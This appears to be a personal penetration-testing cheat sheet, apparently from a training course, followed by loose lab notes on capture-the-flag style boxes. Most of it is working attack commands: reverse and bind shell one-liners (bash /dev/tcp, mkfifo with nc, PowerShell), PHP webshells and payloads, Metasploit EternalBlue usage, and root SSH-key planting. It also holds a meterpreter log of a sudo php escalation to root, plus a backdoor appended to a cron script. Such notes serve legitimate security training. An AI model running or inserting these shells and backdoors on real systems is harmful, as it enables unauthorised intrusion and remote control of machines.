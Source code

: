 # GettingStarted (Complete)

## Basic Tools 
> - **Connect to VPN **  sudo openvpn user.ovpn   
> - **Connect to FTP **  ftp 10.0.0.0   
> - **Connect to SSH **  ssh user@10.0.0.0   


    
## Service Scanning 
> - **Run an nmap script scan on an IP **  nmap -sV -sC -p- 10.0.0.0   
> - **Grab banner of an open port **  netcat 10.10.10.10 22   
> - **List SMB Shares **  smbclient -N -L \\\\10.129.42.253   
> - **Connect to a SMB Share **  smbclient \\\\10.129.42.253\\users
> - **Grab banner of an open port **  netcat 10.10.10.10 22
> - **Grab banner of an open port **  netcat 10.10.10.10 22


   
  
## WEB Enumb
> - **scan web directories** gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt
> - **scan sub directories of a website** gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
> - **List potential directories** curl 10.10.10.121/robots.txt
> - **grab website banner** curl -IL https://www.inlanefreight.com
> - **List details about webserver/certs** whatweb 10.10.10.121 or whatweb --no-errors 10.10.10.0/24


    

## Exploit Scan
> - **Install exploitdb tool** sudo apt install exploitdb -y
> - **Search for public exploits for a web application** searchsploit openssh 7.2
### Metasploit
Metasploit Framework (MSF) contains exploits for many public vulnerabilities and provides an easy way to use these exploits against vulnerable targets
> - **MSF: Start the Metasploit Framework** msfconsole
> - **Search for public exploits in MSF** search exploit eternalblue
> - **Start using an MSF module** use exploit/windows/smb/ms17_010_psexec
> - **Show required options for an MSF module** show options
> - **Set a value for an MSF module option** set RHOSTS 10.10.10.40
> - **Test if the target server is vulnerable** check
> - **Run the exploit on the target server is vulnerable** exploit
     
    

## Using Shells
netcat can be used to connect to any listening port and interact with the service running on that port.
> - **Start a nc listener on a local port (on my computer)** nc -lvnp 1234  or   nc 10.10.10.1 1234
> - **Send a reverse shell from the remote server** bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
> - **Another reverse shell from the remote server** rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
> - **Start a bind shell on the remote server** rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
> - **same as above but with powershell** powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
> - **Connect to a bind shell started on the remote server (on my computer)** nc 10.10.10.1 1234
>
> - **Upgrade shell TTY (1)** python -c 'import pty; pty.spawn("/bin/bash")'
> - **Upgrade shell TTY (2)** ctrl+z then stty raw -echo then fg then enter twice
> - **Create a webshell php file** echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php
> - Apache	/var/www/html/   Nginx	/usr/local/nginx/html/   IIS	c:\inetpub\wwwroot\   XAMPP	C:\xampp\htdocs\
> - **Execute a command on an uploaded webshell** curl http://SERVER_IP:PORT/shell.php?cmd=id or go to browser http://SERVER_IP:PORT/shell.php?cmd=id
   

## Privilege Escalation
> - **Run linpeas script to enumerate remote server** ./linpeas.sh
> - **Test if sudo** sudo -l     or   sudo -u user /bin/echo Hello World!   or    sudo su -
> - Try find accounts via /etc/crontab     /etc/cron.d      /var/spool/cron/crontabs/root    /etc/passwd   etc.
> - **SSH in**
> - **Create key** ssh-keygen -f key   
> - **apply key to user** echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys   
> - **SSH to server** ssh root@10.10.10.10 -i key   
   



## Transfer Files
> - **Start local web server** python3 -m http.server 8000
> - **Download a file on the remote server from our local machine** wget http://10.10.14.1:8000/linenum.sh
> - **Download a file on the remote server from our local machine** curl http://10.10.14.1:8000/linenum.sh -o linenum.sh
> - **Transfer a file to the remote server with scp (requires SSH access)** scp linenum.sh user@remotehost:/tmp/linenum.sh
> - **Do It via BASE64**
> - **Convert a file to base64** base64 file -w 0     check it via md5sum shell
> - **Convert a file from base64 back to its orig** echo f0VMR...SNIO...InmDwU | base64 -d > shell
> - user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > file



### Useful Links













  install seclists = git clone https://github.com/danielmiessler/SecLists && sudo apt install seclists -y
  Next, add a DNS Server such as 1.1.1.1 to the /etc/resolv.conf file.
  > 


  
meterpreter > sudo -l
[-] Unknown command: sudo
meterpreter > shell
Process 2076 created.
Channel 0 created.
sudo -l
Matching Defaults entries for www-data on gettingstarted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on gettingstarted:
    (ALL : ALL) NOPASSWD: /usr/bin/php
CMD="/bin/sh"
sudo php -r "system('$CMD');"
whoami
root
cd /root
cat root.txt
f1fba6e9f71efb2630e6e34da6387842

  
##########################################################################################


  

nmap -sV --open -oA nibbles_initial_scan <ip address>
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.190
nc -nv 10.129.42.190 22
nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.190
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.190 
whatweb 10.129.42.190


gobuster dir -u http://10.129.42.190/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKING IP> <LISTENING PORT) >/tmp/f
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.246 9443 >/tmp/f"); ?>
nc -lvnp 9443
python -c 'import pty; pty.spawn("/bin/bash")'
 python3 -c 'import pty; pty.spawn("/bin/bash")'


unzip personal.zip
cat monitor.sh
sudo python3 -m http.server 8080
wget http://<your ip>:8080/LinEum.sh
chmod +x LinEnum.sh
./LinEnum.sh


https://github.com/vanhauser-thc/thc-hydra
https://github.com/digininja/CeWL
https://highon.coffee/blog/reverse-shell-cheat-sheet/!

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 9443 >/tmp/f"); ?>
nc -lvnp 9443
navigate to the webfile and should get a hit on the listner as shell
upgrade to nicer shell via which python3 commmand
python -c 'import pty; pty.spawn("/bin/bash")' OR python -c 'import pty; pty.spawn("/bin/bash")' OR python3 -c 'import pty; pty.spawn("/bin/bash")'
to enumerate priv esculations run this while listening - sudo python3 -m http.server 8080
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
Back on the target type wget http://<your ip>:8080/LinEum.sh to download the script
Once the script is pulled over, type chmod +x LinEnum.sh to make the script executable and then type ./LinEnum.sh to run it.
modify monitor.py script to add line at the end
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.5 8443 >/tmp/f' | tee -a monitor.sh


10.129.42.249 target
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
/theme
/data
/backups
{"status":"0","latest":"3.3.16","your_version":"3.3.15","message":"You have an old version - please upgrade"}
10.10.15.24 me
<USR>admin</USR>
<NAME/>
<PWD>d033e22ae348aeb5660fc2140aec35850c4da997</PWD>
<EMAIL>admin@gettingstarted.com</EMAIL>

nmap -sV --open -oA nibbles_initial_scan 10.129.42.249 
nmap -p- --open -oA nibbles_full_tcp_scan 10.129.42.249 

nc -nv 10.129.42.249 22
nc -nv 10.129.42.249 80

nmap -sC -p 22,80 -oA nibbles_script_scan 10.129.42.249
nmap -sV --script=http-enum -oA nibbles_nmap_http_enum 10.129.42.249

+whatweb 10.129.42.249
+gobuster dir -u http://10.129.42.249/data/ --wordlist /usr/share/dirb/wordlists/common.txt

<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.129.42.249 4444 >/tmp/f"); ?>
